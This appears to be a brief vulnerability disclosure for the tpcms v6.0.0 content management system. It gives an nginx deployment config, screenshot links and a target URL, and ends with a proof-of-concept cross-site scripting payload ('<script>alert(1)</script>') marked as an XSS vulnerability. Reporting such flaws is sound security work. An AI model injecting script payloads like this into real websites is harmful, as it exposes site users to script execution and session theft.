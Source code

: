 # tpcms1
https://gitee.com/happy_source/tpcms/releases/tag/v6.0.0

nginx conf:

```
server {
    listen      80;
    server_name localhost 127.0.0.1;
    index index.php index.html;
    root /var/www/html/public;
    client_max_body_size 100m;

    # 伪静态支持
    location / {
        try_files $uri $uri/ @rewrite;
    }

    location @rewrite {
        # 此处的rewrite规则将URL重写为index.php的查询字符串
        # 例如: /some-controller/some-action 将被重写为 /index.php?s=some-controller/some-action
        rewrite ^/(.*)$ /index.php?s=/$1 last;
    }


    location ~ \.php($|/) {
        fastcgi_pass   127.0.0.1:9000; # PHP-FPM 监听地址和端口
        fastcgi_index  index.php;
        include        fastcgi_params; # 包含fastcgi的参数设置
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_param  PATH_INFO       $fastcgi_path_info;
        fastcgi_param  SCRIPT_FILENAME $document_root$fastcgi_script_name;
    }
}
```

<img width="965" alt="image" src="https://github.com/user-attachments/assets/a4554984-4e85-41e8-8b8c-71fefca92131">
<script>alert(1)</script>
<img width="1133" alt="image" src="https://github.com/user-attachments/assets/beb4d71a-4777-4f01-9a60-b9874aa84552">
utl:http://ip/index.php?s=platform/index/index.html
<img width="896" alt="image" src="https://github.com/user-attachments/assets/2020156a-caf2-4015-8c9a-657fad59fd87">

xss vuln
